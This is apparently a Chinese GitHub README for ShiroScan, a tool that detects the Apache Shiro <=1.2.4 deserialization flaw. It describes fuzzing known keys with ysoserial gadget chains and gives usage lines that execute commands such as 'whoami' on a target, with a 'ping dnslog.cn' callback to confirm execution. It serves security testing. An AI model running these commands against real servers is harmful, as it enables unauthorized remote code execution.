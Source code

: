 # ShiroScan
Shiro&lt;=1.2.4反序列化，一键检测工具

    改动内容：1.新增4个利用链模块(CommonsCollections7-10)，预计增加成功率30%，已打包成新ysoserial的jar包，请勿更换
    改动内容：2.增加多线程，虽模块增加但速度却提高300%

```
集成21个key进行fuzz
```

* 如果有帮助，请点个star哦，对应blog文章：http://www.svenbeast.com/post/tskRKJIPg/
* pip3 install -r requirments.txt     

* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  https://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 11个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为编码还不够多

* 请自行收集编码，在moule下的源代码中自行添加方法即可

* 为了脚本运行简单，多线程数量不是使用者传参控制，默认20线程，如需改动请到/moule/main.py第20行代码自行修改控制线程的参数
## 不推荐当做exp使用，效率问题
## 仅供安全人员验证,测试是否存在此漏洞
